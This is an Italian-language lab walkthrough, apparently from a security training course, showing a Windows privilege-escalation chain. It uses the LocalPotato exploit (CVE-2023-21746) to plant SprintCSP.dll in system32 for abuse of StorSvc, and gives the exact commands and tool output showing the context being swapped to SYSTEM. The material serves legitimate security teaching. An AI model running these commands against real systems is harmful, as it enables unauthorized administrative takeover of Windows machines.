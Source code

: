 Ora siamo pronti a lanciare l'intera catena di exploit!

#### Elevare i nostri privilegi

Ora siamo pronti a lanciare l'exploit. Assicurati di avere l' `LocalPotato.exe`exploit, `RpcClient.exe`e i  `SprintCSP.dll`file sul desktop prima di procedere. In caso contrario, torna al task precedente per compilarli.

Cominciamo verificando che il nostro utente attuale non faccia parte del `Administrators`gruppo:  

Prompt dei comandi

```shell-session
C:\> net user user
User name                    user
Full Name

... some output omitted ...

Local Group Memberships      *Remote Desktop Users *Users
Global Group memberships     *None
The command completed successfully.
```

Per sfruttare con successo **StorSvc** , dobbiamo copiare `SprintCSP.dll`in una directory qualsiasi nel PATH corrente. Possiamo verificare il PATH eseguendo il seguente comando:

Prompt dei comandi

```shell-session
C:\> reg query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" -v Path
    Path    REG_EXPAND_SZ    %SystemRoot%\system32;%SystemRoot%;%SystemRoot%\System32\Wbem;
                             %SYSTEMROOT%\System32\WindowsPowerShell\v1.0\;%SYSTEMROOT%\System32\OpenSSH\;
                             C:\Program Files\Amazon\cfn-bootstrap\
```

Prenderemo di mira la `%SystemRoot%\system32`directory, che si espande in `C:\windows\system32`. Dovresti comunque essere in grado di usare una qualsiasi delle directory.

Per sicurezza, possiamo provare a copiare la DLL direttamente in `system32`, ma il nostro utente non avrà privilegi sufficienti per farlo:

Prompt dei comandi

```shell-session
C:\Users\user\Desktop> copy SprintCSP.dll C:\Windows\System32\SprintCSP.dll
Access is denied.
        0 file(s) copied.
```

Utilizzando LocalPotato, possiamo copiare SprintCSP.dll in system32 anche se stiamo utilizzando un utente senza privilegi: 

Prompt dei comandi

```shell-session
C:\Users\user\Desktop> LocalPotato.exe -i SprintCSP.dll -o \Windows\System32\SprintCSP.dll
 
         LocalPotato (aka CVE-2023-21746)
         by splinter_code & decoder_it
 
[*] Objref Moniker Display Name = objref:TUVPVwEAAAAAAAAAAAAAAMAAAAAAAABGAQAAAAAAAABTIvXDdMIUbap+AepkeJ/yAcgAAMwIwArWEKZ3vRDmhjkAIwAHAEMASABBAE4ARwBFAC0ATQBZAC0ASABPAFMAVABOAEEATQBFAAAABwAxADAALgAxADAALgA0ADAALgAyADMAMQAAAAAACQD//wAAHgD//wAAEAD//wAACgD//wAAFgD//wAAHwD//wAADgD//wAAAAA=:
[*] Calling CoGetInstanceFromIStorage with CLSID:{854A20FB-2D44-457D-992F-EF13785D2B51}
[*] Marshalling the IStorage object... IStorageTrigger written: 100 bytes
[*] Received DCOM NTLM type 1 authentication from the privileged client
[*] Connected to the SMB server with ip 127.0.0.1 and port 445
[+] SMB Client Auth Context swapped with SYSTEM
[+] RPC Server Auth Context swapped with the Current User
```